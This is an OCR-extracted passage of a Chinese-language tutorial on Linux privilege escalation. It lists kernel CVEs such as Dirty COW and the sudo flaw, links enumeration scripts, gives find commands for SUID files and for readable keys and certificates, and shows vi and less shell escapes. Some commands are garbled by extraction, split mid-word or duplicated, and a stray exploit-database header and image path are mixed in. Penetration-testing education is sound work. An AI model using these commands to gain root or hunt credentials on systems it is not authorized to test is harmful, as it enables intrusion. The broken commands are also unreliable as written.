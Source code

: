 Mandrake 6.x / RedHat 6.x /

Turbolinux 3.5 b2/4.x/6.0.2

userhelper/PAM - Path (2)

 | Elias Levy |

⽐较常⽤的漏洞：

CVE-2016-5195: 脏⽜漏洞

CVE-2019-14287: sudo溢出漏洞

可以通过⾃动化脚本来匹配相关的内核漏洞：

```
`https://github.com/rebootuser/LinEnum` `https://github.com/mzet-/linux-exploit-suggester`
```

  

**0x03 suid提权**

suid允许⽤户在执⾏⽤户的许可下执⾏⽂件，创建和打开⽹络套接字⼀般需要root权限，但是为了⽅便使 ⽤，如Ping命令，通过设置Ping程序的suid，就可以允许低权限⽤户执⾏Ping程序时是以root权限执⾏。因此，如果⼀个程序中设置了suid，我们可以该程序⽣成的shell来提升权限。

**查找suid和guid⽂件**

```
`find / -perm -u=s -type f 2>/dev/null``find / -perm -g=s -type f 2>/dev/n`
```

ull  

**其它可⽤的命令**

**查找密钥或者证书:**

```
find / -type f '(' -name .cert -or -name .crt -or -name .pem -or name .ca -or -name .p12 -or -name .cer -name *.der ')' '(' '(' -us er support -perm -u=r ')' -or '(' -group support -perm -g=r ')' -o r '(' -perm -o=r ')' ')' 2> /dev/null-or -name .cer -name .der ')' 2> /dev/nu
```

**查找root拥有的suid⽂件**

```
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

**例⼦**

**vi / vim**

```
`:set shell=/bin/sh``:shell`
```

**less**

```
`less /etc/passwd``!/bin/sh`
```
